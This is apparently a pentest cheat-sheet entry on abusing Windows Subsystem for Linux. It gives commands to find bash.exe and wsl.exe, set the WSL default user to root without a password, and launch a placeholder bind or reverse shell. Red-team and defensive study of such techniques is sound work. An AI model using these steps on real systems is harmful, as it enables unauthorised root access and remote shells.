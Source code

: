 ### Finding bash.exe and wsl.exe
##### Oneliner to find bash.exe
```powershell
where /R c:\windows bash.exe
```

##### Oneliner to find wsl.exe
```powershell
where /R c:\windows wsl.exe
```

##### Check the current user in wsl
```powershell
<full path of wsl.exe>/wsl.exe whoami
```

**Note** - bash.exe will pop a linux bash shell which can be used to run linux commands 

*With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.*

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

-> Binary `bash.exe` can also be found in 
```powershell
C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`
```
-> Alternatively you can explore the `WSL` filesystem in the folder 
```powershell
C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\
```